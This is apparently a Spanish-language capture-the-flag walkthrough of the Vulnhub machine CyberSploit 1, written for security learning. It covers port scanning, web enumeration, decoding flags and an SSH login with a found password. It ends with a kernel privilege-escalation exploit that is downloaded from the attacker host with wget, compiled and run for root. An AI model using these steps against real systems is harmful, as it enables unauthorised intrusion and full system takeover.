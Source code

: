 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=480&height=80&lines=CYBERSPLOIT_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/cybersploit-1,506/


<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/174417901-a2431e6b-3849-46e3-a0e4-ed3f8ed73e85.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/174458235-8b46f051-22c5-4c9e-a193-a21d2b15f82a.png)

IP host: `192.168.1.5`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/174458274-1cbb9500-5deb-43d7-a58c-1fa3ba579cc9.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/174458453-68bb619f-8c2c-4657-a337-ae7bdbdb0fd3.png)

Servidor corriendo: **HTTP Apache**

![4](https://user-images.githubusercontent.com/75953873/174458587-9dc99104-e733-4167-a77e-5637aa484cde.png)

- *Paso 4:* Enumerar archivos web con Dirb.
```
dirb http://192.168.1.5 -w /usr/share/dirb/wordlists/common.txt
```
![5](https://user-images.githubusercontent.com/75953873/174458681-2f5b9ac3-cf49-4484-8fa4-ecba37570950.png)

Archivo: `robots.txt`

Mostrar contenido del archivo con Curl:
```
curl http://192.168.1.5/robots.txt
```
![6](https://user-images.githubusercontent.com/75953873/174458725-43cc2b76-f495-443a-ac4d-83aacd133f9a.png)

Mensaje ofuscado a base64: `R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9`

Decodificar mensaje con Bash:
```
echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 --decode
```
![7](https://user-images.githubusercontent.com/75953873/174458797-e0ceea57-dcf1-4b3b-954c-b2dfaf1fd074.png)

- *Paso 5:* Conectarse al servidor SSH. 

**_CREDENCIALES SSH_**

Usuario: `itsskv`

Contraseña (**FLAG_1**): `cybersploit{youtube.com/c/cybersploit}`

```
ssh itsskv@192.168.1.5
```
![8](https://user-images.githubusercontent.com/75953873/174458910-2ecb3d1a-a76b-46b6-a51f-e14cc1e849b6.png)

Capturar la segunda flag:
```
cat /home/itsskv/flag2.txt
```
![9](https://user-images.githubusercontent.com/75953873/174458939-30736126-e294-4d22-85ae-f074f4b3f566.png)

Flag ofuscada a código binario: `01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101`

- *Paso 6:* Decodificar binario.

ONLINE: https://www.online-toolz.com/langs/es/tool-es-text-binary-convertor.html

![10](https://user-images.githubusercontent.com/75953873/174459040-d0e1d032-167b-464b-a9c4-d3aa8d57753d.png)

**FLAG_2**: cybersploit{https:t.me/cybersploit1}

- *Paso 7:* Escalar privilegios: buscar exploit con Searchsploit.

Versión del kernel: `3.13.0-32`

![12](https://user-images.githubusercontent.com/75953873/174459381-dc60d2c4-1bd2-426e-a9b5-2bb4dc27ab37.png)

```
searchsploit 3.13.0
```
![11](https://user-images.githubusercontent.com/75953873/174459391-4ab3d7ee-c30f-4ee0-9e95-76c82dac1e10.png)

Descargar exploit:
```
searchsploit -m 37292
```
![13](https://user-images.githubusercontent.com/75953873/174459424-5bc7b440-01e0-4331-8597-e7dcc4da51c1.png)

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 80
```
![14](https://user-images.githubusercontent.com/75953873/174459453-de8a70d0-36c7-4238-b8eb-bac90a4a891e.png)

Descargar exploit en el directorio `/tmp`; compilar y dar permisos de escritrura, lectura y ejecucción:
```
cd /tmp
wget http://192.168.1.9/37292.c
gcc 37292.c -o kernel
chmod 777 kernel
```
![15](https://user-images.githubusercontent.com/75953873/174459564-3b68a9b2-1d9f-4bcf-8689-a2f0afe3d4f5.png)

Por último, explotar el kernel `./kernel` y capturar la key (flag) del fichero `finalflag.txt` dentro del directorio `/root`:
```
./kernel
cd /root
cat finalflag.txt
```
![16](https://user-images.githubusercontent.com/75953873/174459618-e2feb3f3-dca2-4041-ba44-0272c063c7dd.png)

**FLAG_3**: cybersploit{Z3X21CW42C4 many many congratulations !}

